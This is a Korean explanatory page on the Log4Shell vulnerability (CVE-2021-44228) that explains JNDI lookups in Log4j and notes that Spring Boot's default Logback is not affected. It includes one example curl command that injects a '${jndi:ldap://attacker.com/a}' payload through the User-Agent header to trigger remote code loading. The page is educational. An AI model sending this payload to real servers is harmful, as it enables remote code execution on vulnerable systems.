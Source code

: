 ```yaml
---
layout: default
title: Log4j
nav_order: 1101
has_children: true
last_modified_date: 2021-02-18 00:00:00
last_modified_at: 2021-02-18 00:00:00
---
```


# Log4j
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## 개요


## Log4j 보안 취약점 사태

[CVE-2021-44228](https://ko.wikipedia.org/wiki/Log4Shell)

Java 언어 기반의 프로그램중 가장 많이 사용하는 로그 라이브러리로써, 2.14.1 이하 버전의 log4j2 를 사용할 경우 이 취약점에 노출된다.

최초의 발단은 알리바바 클라우드 보안팀으로 부터 알려지게 되었으며, 2021년 12월 9일 트위터의 [게시글](https://twitter.com/P0rZ9/status/1468949890571337731) 로 부터 본격적으로 대중들에게 알려지게 되었다. 

### 취약점 원리

취약점 원리를 먼저 파악하기 전 JNDI(Java Naming and Directory Interface)에 대해 먼저 이해하여야 한다. JNDI는 디렉터리 서비스에서 제공하는 데이터 및 객체를 발견(discover)하고 참고(lookup)하기 위한 자바 API다.

많이 쓰이는 API는 아니지만 그나마 일반적으로 쓰였던 것은 원격에서 Java 애플리케이션 DB 설정을 변경하고자 할 때 사용하기도 한다. JDNI의 경우 LDAP, DNS, NIS, RMI 같은 프로토콜을 이용해서 JNDI를 호출할 수 있도록 지원한다.

JNDI 자체가 문제가 되는건 아니다. 근데 log4j 에서 무슨 이유인지는 모르겠지만 log 를 찍을때, JNDI 를 lookup 할 수 있는 코드가 포함되어 있었다. Log4j 라이브러리  패키지 경로 <code> package org.apache.logging.log4j.core.lookup </code> 에서 <code> JndiLookup </code> 이라는 클래스 가 있는데, 이 녀석은 logger 인터페이스로 전달받은 내용중 특정 네이밍 규칙으로 입력된 내용을 JDNI 으로 핸들링 해주는 클래스이다.  자세한 코드는 우측 링크를 선택해서 보면 된다. [JndiLookup.java](https://github.com/apache/logging-log4j2/blob/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java)

여기에 LDAP 이라는 프로토콜과 결합되어 심각한 문제가 발생됬다. User-Agent 나 X-Api-Version 같은 header 값을 로그로 출력하는 코드가 포함되어 있을 경우 해커의 LDAP 주소를 입력하여 악성 코드를 서버에서 손쉽게 실행할 수 있게 된 것이다.

```
curl 127.0.0.1:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```

즉 이번 사태의 **근본적인 문제**는 log4j 에서 log 를 출력할 때, JNDI 를 lookup 하고 있었다는것이 문제다. 왜냐하면 log 를 출력할때 JNDI 를 lookup 하는 기능은 아무도 쓰지도 않는 기능이다. 스프링 부트 기본 내장 logger 인 logback 에서는 jndi lookup 자체를 하고 있지 않다. 굳이 고급 개발자가 아니더라도 해당 코드는 취약점이 발생하기 매우 높은 코드라는것은 예측이 가능한데 왜 이런 코드가 오픈 소스에 포함이 되어 있었을까 의문이다. (혹시?)

### Spring boot Logback은 안전하다.

위 취약점은 log4j에서 발생했다. 스프링 부트는 기본적으로 logback 을 사용한다. logback 은 jndi 자체를 lookup 하지 않기 때문에 ${jndi:~~} 와 같은 코드를 보내더라도 단순 문자열으로 출력할 뿐이다. 물론 스프링 부트 기본 logger를 사용하지 않고 직접 log4j 의존성을 주입하여 사용했다면 문제가 될 수 있다.